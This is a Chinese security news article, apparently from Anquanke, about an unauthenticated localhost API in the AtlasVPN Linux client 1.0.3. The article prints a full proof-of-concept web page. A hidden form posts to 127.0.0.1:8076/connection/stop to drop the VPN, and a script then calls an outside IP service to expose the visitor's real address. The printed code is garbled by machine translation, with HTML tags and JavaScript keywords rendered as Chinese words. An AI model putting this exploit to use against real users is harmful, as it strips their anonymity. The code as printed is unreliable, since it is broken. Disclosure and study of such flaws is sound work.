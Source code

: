 #  匿名研究员发布AtlasVPN Linux 客户端 1.0.3 远程断开连接漏洞POC   
 安全客   2023-09-05 16:58  
  
日前，国外Reddit   
网站上出现了有关Linux操作系统 的AtlasVPN客户端发现严重安全漏洞的  
信息  
。  
  
一位匿名的网络安全研究人员发布了一个有效的PoC  
漏  
‍洞  
，并向公众演示了攻击者如何通过在其恶意网站上发布漏洞代码来访问 Linux 版本 VPN 客户端的任何用户的真实IP  
地址  
。  
  
**根本原因**  
  
AtlasVPN Linux 客户端由两部分组成。管理连接的守护进程 (atlasvpnd) 和用户控制连接、断开连接和列出服务的客户端 (atlasvpn)。  
  
客户端不通过本地套接字或任何其他安全方式进行连接，而是在端口 8076 上的本地主机上打开 API。它没有任何身份验证。  
  
计算机上运行的任何程序（包括浏览器）都可以访问此端口。因此，任何网站上的恶意 JavaScript 都可以向该端口发出请求并断开 VPN。如果它随后运行另一个请求，则会将用户的家庭 IP 地址泄漏到使用漏洞代码的任何网站。  
  
**漏洞利用代码**  
  
以下代码演示了该问题。它可以上传到任何网络服务器。当访问该站点时，AtlasVPN 会断开连接并泄露 IP 地址。不用于非法目的。  
```

<html>
 <头>
  <title>=[ atlasvpnd 1.0.3 远程断开连接利用]=</title>
</头>
 <正文>
  <pre><code id="log">=[ atlasvpnd 1.0.3 远程断开连接利用 ]=
 您应该运行 atlasvpn Linux 客户端并连接到 VPN。
使用<b>atlasvpn connect</b>连接到VPN服务器。
 </code></pre>
   <iframe id="hiddenFrame" name="hiddenFrame" style="display: none;"></iframe>
  <form id="stopForm" action="http://127.0.0.1:8076/connection/stop" method="post" target="hiddenFrame">
    <button type="submit" style="display: none"></button>
  </形式>
   <脚本>
    window._currentIP = false;
     // 主要运行的漏洞利用代码
    window.addEventListener('加载', function () {
      添加IPToLog();
      setTimeout(triggerFormSubmission, 1000);
      setTimeout(addIPToLog, 3000);
    });
     // 向 atlasvpnd 发送盲 CORS 请求以断开 VPN
    函数触发表单提交（）{
      var logDiv = document.getElementById('log');
      logDiv.innerHTML += "[-] 正在向 atlasvpnd 发送中断连接请求...\n";
      document.getElementById('stopForm').submit();
    }
     // 从ipfy API获取IP（当然，这可能是你的服务器）
    函数 addIPToLog() {
      var logDiv = document.getElementById('log');
      var xhr = new XMLHttpRequest();
       xhr.open('GET', 'https://api.ipify.org?format=json', true);
       xhr.onload = 函数 () {
        var ipAddress = window._currentIP;
        if (xhr.status === 200) {
          var 响应 = JSON.parse(xhr.responseText);
          ip地址 = 响应.ip;
           logDiv.innerHTML += '[?] 当前IP:' + ipAddress + "\n";
        }另外{
          logDiv.innerHTML += '[-]获取IP地址时出错。\n';
        }
         //检查IP是否改变。如果是：成功。
        if (window._currentIP && window._currentIP != ipAddress) {
          logDiv.innerHTML += "[+] 成功断开VPN。"
        }
        if (window._currentIP && window._currentIP == ipAddress) {
          logDiv.innerHTML += "[-] 断开连接失败，因为您一开始就没有连接到VPN。"
        }
         // 保存IP以供下一次迭代使用。
        window._currentIP = ip地址;
      };
       xhr.send();
    }
  </> 脚本
</正文>
</html>
```  
  
“AtlasVPN 并不认真对待用户的安全。他们的软件安全解决方案非常蹩脚，很难相信这是一个错误而不是后门。没有人能如此无能。”一位匿名专家批评该公司的做法。  
  
  
该专家尝试联系AtlasVPN支持人员报告该漏洞，但没有收到回复。他认为，这表明该公司对客户安全的疏忽态度。  
  
截至本新闻发布时，AtlasVPN 代表尚未对此事发表评论。建议所有 Linux 客户端用户在访问  
未经验证的站点时务必谨慎，甚至暂时更换 VPN 客户端，直至漏洞得到修复。  
  
声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
